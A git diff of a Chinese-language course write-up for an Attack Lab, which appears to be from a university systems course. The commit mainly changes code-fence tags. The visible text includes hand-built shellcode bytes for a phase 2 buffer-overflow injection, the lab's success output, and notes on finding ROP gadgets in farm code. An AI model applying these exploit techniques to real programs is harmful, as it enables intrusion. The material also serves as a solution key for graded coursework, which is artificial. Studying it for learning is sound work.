

Before and after one commit to zhuozhiyongde/Introduction-to-Computer-System-2023Fall-PKU, a Markdown page: 03-Attack-Lab/README.md, 2 parts joined by grey strips. Shown at 87% size. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/03-Attack-Lab/README.md
+++ b/03-Attack-Lab/README.md
@@ -109,12 +109,12 @@ objdump -d p2.o > p2.byte # 翻译为字节码
 
 得到 `p2.byte`：
 
-```assembly
+```asm
 
 p2.o:     file format elf64-x86-64
 
 
-Disassembly of section .text:
+Disasm of section .text:
 
 0000000000000000 <.text>:
    0:	48 c7 c7 10 76 a6 11 	mov    $0x11a67610,%rdi
@@ -125,7 +125,7 @@ Disassembly of section .text:
 
 组合我们的代码：
 
-```assembly
+```asm
 48 c7 c7 10 76 a6
 11 68 58 1f 40 00
 c3 00 00 00 00 00
@@ -142,7 +142,7 @@ c3 00 00 00 00 00
 
 于是大功告成！
 
-```
+```md
 Cookie: 0x11a67610
 Touch2!: You called touch2(0x11a67610)
 Valid solution for level 2 with target ctarget
@@ -285,7 +285,7 @@ objdump -d farm.o > farm.s
 
 因为我们实际要利用的是代码片段根据不同起始引发的 “二义性”，所以我在 VS Code 中执行了如下的正则表达式替换：
 
-```
+```md
 .+:\t(([0-9a-f]{2} )+).+ ➡️ $1
 
 (([0-9a-f]{2} )+)\n ➡️ $1
@@ -293,7 +293,7 @@ objdump -d farm.o > farm.s
 
 这样就可以让我的代码变得只有字节，也就便于我们后续查找我们所需要的 gadget：
 
-```assembly
+```asm
 000000000000000f <getval_442>:
 f3 0f 1e fa 55 48 89 e5 b8 48 89 c7 91 5d c3
 ```
@@ -302,21 +302,21 @@ f3 0f 1e fa 55 48 89 e5 b8 48 89 c7 91 5d c3
 
 > 如 Phase5 中，以此法得到：
 >
-> ```
+> ```md
 > 00000000004022e8 <addval_436>:
 > f3 0f 1e fa 8d 87 89 ca 84 c0 c3
-> ```
+> ```md
 >
 > 若依此法定位 `89 ca 84 c0 c3 ` 字符串，得到 `0x4022ed`
 >
 > 但是，这会导致段错误，因为原函数反编译直接得到的是：
 >
-> ```
+> ```md
 > 00000000004022e8 <addval_436>:
 >   4022e8:	f3 0f 1e fa          	endbr64
 >   4022ec:	8d 87 89 ca 84 c0    	lea    -0x3f7b3577(%rdi),%eax
 >   4022f2:	c3                   	ret
-> ```
+> ```md
 >
 > 原函数在 0x4022e8 这一行隐式进行了对齐，所以跳过了一个字节，也即正确的字节是
 >
@@ -326,7 +326,7 @@ f3 0f 1e fa 55 48 89 e5 b8 48 89 c7 91 5d c3
 
 ![Cleanshot-2023-10-18-at-08.25.14@2x](./README.assets/Cleanshot-2023-10-18-at-08.25.14@2x.png)
 
-```
+```md
 5[89a-f] c3
 ```
 
````
Also changed, not shown: other parts of 03-Attack-Lab/README.md (+34 -34 lines).
